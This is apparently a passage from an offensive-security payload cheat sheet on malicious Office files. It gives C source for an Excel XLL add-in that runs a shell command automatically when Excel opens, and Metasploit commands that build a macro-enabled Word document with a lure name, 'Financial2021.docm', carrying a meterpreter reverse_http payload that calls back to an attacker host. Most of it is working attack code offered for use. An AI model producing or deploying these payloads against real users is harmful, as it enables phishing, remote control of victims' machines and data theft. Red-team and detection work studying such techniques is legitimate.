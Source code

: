 
### XLL - EXEC

An "XLL" file is a type of file used primarily with Microsoft Excel. It stands for "Excel Add-In Library" and is a dynamic link library (DLL) specifically designed to be loaded into Microsoft Excel. These files extend Excel's functionality by adding extra features, functions, or capabilities that are not available in the standard installation of Excel.

:warning: Excel is blocking untrusted XLL add-ins by default

* Compile with: `cl.exe notepadXLL.c /LD /o notepad.xll`
    ```c
    #include <Windows.h>

    __declspec(dllexport) void __cdecl xlAutoOpen(void); 

    void __cdecl xlAutoOpen() {
        // Triggers when Excel opens
        WinExec("cmd.exe /c notepad.exe", 1);
    }

    BOOL APIENTRY DllMain( HMODULE hModule,
                        DWORD  ul_reason_for_call,
                        LPVOID lpReserved
                        )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
        }
        return TRUE;
    }
    ```


## Word

### DOCM - Metasploit

```ps1
use exploit/multi/fileformat/office_word_macro
set payload windows/meterpreter/reverse_http
set LHOST 10.10.10.10
set LPORT 80
set DisablePayloadHandler True
set PrependMigrate True
set FILENAME Financial2021.docm
exploit -j
```
